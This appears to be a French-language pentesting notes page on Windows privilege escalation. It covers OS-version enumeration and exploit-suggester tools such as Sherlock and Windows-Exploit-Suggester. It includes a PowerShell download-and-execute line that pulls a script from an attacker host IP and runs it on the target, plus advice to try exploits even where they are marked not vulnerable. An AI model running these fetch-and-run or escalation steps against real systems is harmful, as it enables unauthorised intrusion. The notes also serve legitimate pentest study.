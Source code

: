 ```yaml
---
public: true
---
```

## Version de Windows

```shell
# Si on souhaite les informations du système d'exploitation uniquement on pourra utiliser cette commande
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

[environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

On trouvera sur ce site la version exacte de Windows en fonction de la version du noyau remonté par les commandes suivantes

[Liste des Versions Windows](https://en.wikipedia.org/wiki/Windows_10_version_history)

## Escalade de privilèges

Selon la version du système d'exploitation, on pourra utiliser un des outils suivants pour trouver des exploits qui pourraient fonctionner sur la machine cible :

- Avant Windows Server 2016 : <https://github.com/rasta-mouse/Sherlock>
- Windows Server 2016 et supérieur : <https://github.com/rasta-mouse/Watson>

On peut aussi tenter <https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

### Sherlock (versions anciennes de windows)

** Remarque** : Sherlock affiche une liste de vulnérabilité avec un `VulnStatus` qui peut avoir la valeur `Not Vulnerable`. J'ai pu constater que même si il était marqué `Not Vulnerable`, certains exploits fonctionnent tout de même.... Cela peut donc être intéressant de tenter même d'autres exploits qui serait considérés comme "Non Applicable" (Attention à la stabilité du système !)

```powershell
iex ((New-Object Net.WebClient).DownloadString('http://10.10.15.96/Sherlock.ps1'))
Import-Module .\Sherlock.ps1
Find-AllVulns
```

### Windows Exploit suggester

#### Installation

```shell
curl -LO https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
# dépendances
sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
sudo tar -xf setuptools-2.0.tar.gz
pushd setuptools-2.0/
sudo python2.7 setup.py install
popd

sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
sudo tar -xf xlrd-1.0.0.tar.gz
pushd xlrd-1.0.0/
sudo python2.7 setup.py install
popd
# mise à jour de la DB
sudo python2.7 windows-exploit-suggester.py --update
```

```shell
# exécuter sur la cible 
# > systeminfo > info.txt 
sudo python2.7 windows-exploit-suggester.py -d 2023-11-12-mssb.xls -i /tmp/info.txt   
```
